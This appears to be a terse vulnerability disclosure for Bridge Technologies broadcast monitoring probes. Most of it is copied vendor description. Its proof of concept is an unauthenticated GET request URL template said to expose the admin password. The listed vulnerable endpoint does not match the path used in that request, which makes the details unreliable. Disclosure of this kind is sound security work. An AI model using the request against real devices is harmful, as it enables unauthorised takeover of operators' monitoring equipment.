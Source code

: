 # bridgetech probes (VB220 IP Network Probe,VB120 Embedded IP + RF Probe,VB330 High-Capacity Probe, VB440 ST 2110 Production Analytics Probe , NOMAD) Information Disclosure Vulnerability

## Too lazy to write details, so here’s the description of the device from the vendor’s website
---
## Description
The Bridge probes offered in the Probe are VB220 IP Network Probe,VB120 Embedded IP + RF Probe,VB330 High-Capacity Probe, VB440 ST 2110 Production Analytics Probe , NOMA.

Bridge Technologies probes are high-end monitoring and analytics appliances engineered for broadcast, telecom, and media delivery environments. They inspect IP streams, RF links, and compressed/uncompressed media flows, assessing data integrity, transport quality, and user experience. These probes deliver deep visibility into every segment of content delivery, from source to end-user.

Centralized server software allowing unified monitoring of all deployed probes. Offers alarm aggregation, trend analysis (via microTimeline™), dashboards, Visio map integration, configuration management, user access control, reporting, and scaling from small to large deployments

Bridge Technologies is a Norwegian company based in Oslo that specializes in advanced monitoring, analysis, and quality assurance systems for digital media and telecommunications. Their solutions ensure high service quality across broadcast, cable, satellite, OTT, IPTV, and home networks, safeguarding content delivery for over 1.2 billion subscribers and thousands of channels worldwide
## Who Uses These Devices?

These solutions are primarily used by:

Broadcast and media companies (TV stations) operating studios,professional streamers, head-ends, and remote production environments.

Telecom, cable, satellite, and OTT providers ensuring service quality across networks.

Network engineers and QA teams needing real-time and historic insight into media delivery.

Remote production and field engineers deploying NOMAD in dynamic environments.

Large-scale operations managing many probes centrally via the VBC server.

---

## Vendor Information
- **Vendor:** bridgetech
- **Vendor Homepage:** [https://bridgetech.tv/](https://bridgetech.tv/)

---

## Affected Products
- **Product:** bridgetech probes (VB220 IP Network Probe,VB120 Embedded IP + RF Probe,VB330 High-Capacity Probe, VB440 ST 2110 Production Analytics Probe , NOMAD)


- **Built Version:** Jul 1 2025 12:43:42
- **Firmware Version:**  6.5.0-9  

---

## Vulnerable Endpoints
- `/vbc/data/rdplist`  


---

## Attack Type
- **Type:** Information Disclosure  
- **Classification:** Improper Authorization  

---

## Impact
**Severity:** High  
---
## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)
make a get requste for his endpoints

{target}/probe/core/setup/passwd?Change=1&=&passwd2=slvisolp&submitflash=OK&secs=1756630638395

this will show you the admin password


---

## PoC Video

https://github.com/user-attachments/assets/e37cb90b-4faa-4cbd-a6ee-befe77a9a664
